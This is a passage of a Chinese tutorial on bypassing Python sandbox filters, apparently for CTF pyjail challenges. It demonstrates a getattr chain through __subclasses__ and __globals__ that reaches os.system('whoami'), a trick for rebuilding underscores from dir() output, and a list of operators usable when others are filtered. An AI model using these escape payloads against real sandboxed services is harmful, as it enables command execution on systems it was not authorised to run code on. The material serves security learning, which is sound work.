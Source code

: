 ```
getattr(object, name[, default])
```

- `object`：要获取属性的对象。
- `name`：属性的名称。
- `default`：可选参数，指定当属性不存在时返回的默认值。

```
>>> getattr(getattr(getattr(getattr(getattr('', '__class__'), '__base__'), '__subclasses__')()[139], '__init__'), '__globals__')['system']('whoami')
desktop-13qds1a\lenovo
0
```

###### 过滤下划线

`dir([object])` 是 Python 的一个内置函数，用于获取对象的所有属性和方法的列表。它返回一个包含对象所有属性、方法名称的列表。`object`可选参数，表示要查找属性和方法的对象。如果不提供 `object` 参数，则 `dir()` 返回当前作用域中的所有名称。

```
>>> dir(0)
['__abs__', '__add__', '__and__', '__bool__', '__ceil__', '__class__', '__delattr__', '__dir__', '__divmod__', '__doc__', '__eq__', '__float__', '__floor__', '__floordiv__', '__format__', '__ge__', '__getattribute__', '__getnewargs__', '__gt__', '__hash__', '__index__', '__init__', '__init_subclass__', '__int__', '__invert__', '__le__', '__lshift__', '__lt__', '__mod__', '__mul__', '__ne__', '__neg__', '__new__', '__or__', '__pos__', '__pow__', '__radd__', '__rand__', '__rdivmod__', '__reduce__', '__reduce_ex__', '__repr__', '__rfloordiv__', '__rlshift__', '__rmod__', '__rmul__', '__ror__', '__round__', '__rpow__', '__rrshift__', '__rshift__', '__rsub__', '__rtruediv__', '__rxor__', '__setattr__', '__sizeof__', '__str__', '__sub__', '__subclasshook__', '__truediv__', '__trunc__', '__xor__', 'as_integer_ratio', 'bit_length', 'conjugate', 'denominator', 'from_bytes', 'imag', 'numerator', 'real', 'to_bytes']
>>> dir(0)[0]
'__abs__'
>>> dir(0)[0][0]
'_'
>>> dir(0)[0][0]*2
'__'
```

###### 过滤运算符

`> < ! - +` 这几个比较简单就不说了。

1. 逻辑运算符：
   - `and`：逻辑与
   - `or`：逻辑或
   - `not`：逻辑非
2. 成员运算符：
   - `in`：检查元素是否在一个容器中
   - `not in`：检查元素是否不在一个容器中
3. 身份运算符：
   - `is`：检查两个对象是否是同一个对象（比较对象的内存地址）
   - `is not`：检查两个对象是否不是同一个对象
4. 位运算符：
   - `&`：按位与
   - `|`：按位或
   - `^`：按位异或
   - `~`：按位取反
   - `<<`：左移
   - `>>`：右移
5. 三元条件运算符：
   - `x if condition else y`：根据条件选择 `x` 或 `y`
